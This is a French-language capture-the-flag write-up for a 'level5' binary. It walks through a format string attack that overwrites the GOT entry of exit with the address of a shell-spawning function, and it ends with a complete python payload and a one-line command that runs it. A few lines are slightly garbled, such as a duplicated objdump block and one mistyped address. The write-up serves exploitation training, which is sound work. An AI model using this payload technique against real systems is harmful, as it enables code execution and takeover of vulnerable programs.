




# LEVEL 5

## Intro

On a encore la meme chose que les exercices precedent : 

Dans ghidra on voit des choses interressante , car cette fois cest la fonction o qui execute le shell, et dans la fonction n, on voit qu il y a un exit, et avant ca un simple printf de notre input. On peut donc encore une fois faire un format steing attack.

## Payload

- Il nous faut dans un premier temps l'addresse de o que on peut voir tres simplement avec ghidra : 

    

    c'est donc **\xa4\x84\x04\x08** en little endien

- Le but est **d’écraser** l’entrée GOT de `exit` pour qu’elle pointe vers `o()`. Il nous faut donc l'addresse de exit :
     on peut l 'avoir de cette facon : `objdump -R level5 | grep exit` et on obtient 08049838 soit **\x38\x98x04\x08**

- Pour exploiter le format string il nous faut convertir l addresse de o en decimal, comme ca on pourra ecrire tant de charactere avec printf , ce qui donne en decimal 134513828 et on enleve 4 octet car il y a aussi l addresse de exit donc pour notre payload on va utiliser **134513824**

- comme les autres format string , il nous faut aussi la position des arguments de printf , toujours avec la commande `echo -e "AAAA %p %p %p %p %p %p %p" | ./level5 `

    
objdump -R level5 | grep exit
\xa4\x84\x04\x08

    et cest a la 4eme position

- le payload final sera :
    `python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/payload5`
    
    on peut faire en une seule commande :  `python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/payload5  && cat /tmp/payload5 - | ./level5`

    